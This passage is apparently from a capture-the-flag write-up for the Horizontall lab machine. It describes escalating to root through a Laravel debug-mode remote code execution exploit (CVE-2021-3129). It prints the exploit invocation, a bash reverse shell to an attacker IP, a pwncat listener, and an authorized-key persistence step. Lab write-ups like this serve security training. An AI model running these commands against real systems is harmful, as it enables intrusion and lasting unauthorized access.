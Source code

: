 `3306` is the default MySQL port so that leaves `1337` and `8000` to be investigated.

Running `curl 127.0.0.1:1337` shows that port `1337` simply contains the Strapi CMS page with the "Welcome" message. Running `curl 127.0.0.1:8000` shows that port `8000` contains an application using the Laravel framework.

We can forward this port to our attack machine by running `ssh -i /home/kali/.ssh/id_rsa -L 8000:localhost:8000 strapi@horizontall.htb`. Now, navigating to `localhost:8000` on the attack machine will render the webpage.

Let's try bruteforcing directories with `gobuster dir -u http://localhost:8000 -t 100 -w /usr/share/wordlists/dirb/common.txt`.

```
/.htaccess            (Status: 200) [Size: 603]
/favicon.ico          (Status: 200) [Size: 0]  
/index.php            (Status: 200) [Size: 17473]
/profiles             (Status: 500) [Size: 616206]
/robots.txt           (Status: 200) [Size: 24]
```

The `/profiles` endpoint looks interesting since it is large. We find a Laravel debug page, which means that Laravel is in debug mode. If we click "Context" we see that version `8.43.0` of Laravel is being used.

Let's see if there are any vulnerabilities for this. Using `searchsploit laravel` we find "8.4.2 debug mode - Remote code execution," which we can copy to our home directory with `searchsploit -m 49424.py`. Alternatively, one of these scripts can be used: [zhzyker/CVE-2021-3129](https://github.com/zhzyker/CVE-2021-3129) or [nth347/CVE-2021-3129_exploit](https://github.com/nth347/CVE-2021-3129_exploit).

According to the script, we need the path to the laravel log file, which we can figure out by looking at the debug mode page. The page says "Undefined variable: informat (View: /home/developer/myproject/resources/views/profile/index.blade.php)", which gives us the path to the laravel framework: `/home/developer/myproject/`. [Searching online for the log location](https://laravel.com/docs/4.2/errors#logging) reveals they are stored in `app/storage/logs/laravel.log`. Therefore, the log path is `/home/developer/myproject/storage/logs/laravel.log`.

Running `python3 49424.py http://localhost:8000 /home/developer/myproject/storage/logs/laravel.log 'id'` displays `uid=0(root) gid=0(root) groups=0(root)`, which means our command is executed as root. Let's use a reverse shell as a payload and open a listener on our attacker machine: `python3 49424.py http://localhost:8000 /home/developer/myproject/storage/logs/laravel.log 'bash -c "sh -i >& /dev/tcp/10.10.14.97/35965 0>&1"'"` and `pwncat-cs -lp 35965`. After waiting a few seconds we get a root reverse shell.

We can get the `root.txt` flag with `cat /root/root.txt`. We can gain persistance as `root` with `pwncat` by running `run implant.authorized_key key=/home/kali/.ssh/id_rsa` in the local shell.
